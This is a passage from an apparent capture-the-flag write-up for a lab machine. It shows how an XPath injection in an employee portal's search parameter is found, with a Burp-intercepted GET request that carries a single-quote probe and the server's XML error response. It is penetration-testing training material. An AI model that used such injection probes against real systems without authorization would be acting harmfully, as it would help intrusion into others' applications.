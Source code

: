 ![img](/assets/images/CTF/Proving_Grounds/Wheels/eportal.png)
 
After loggin in successfully click on the `Employee Portal` button and the page will be accessible. Now click on the Search button and intercept the request in Burp suite. The search button shows users in the service which is a possible users exist in the attacking machine.

Upon doing recon the parameter `work` in the request is vulnerable to XPath injection.

## XPath Injection

Send the below request and observe the XML error in the response.

```text
GET /portal.php?work=car'&action=search HTTP/1.1
Host: 192.168.196.202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.196.202/portal.php?work=car&action=search
Cookie: PHPSESSID=e46fk6dmcbj9r807ojgflhej0e
Upgrade-Insecure-Requests: 1
```

```html
<table align="center" height="40" background-color="#92f0ff">
<tr height="40" bgcolor="#17ffb7" align="center">
<td width="200"><b>Search users by services: </b></td>
</tr>
XML Error; No car' entity found<br />
<b>Warning</b>:  SimpleXMLElement::xpath(): Invalid expression in <b>/var/www/html/portal.php</b> on line <b>68</b><br />
<tr height="40">
<td colspan="5" width="210">No users were found!</td>							
</tr>     							
</table>
```
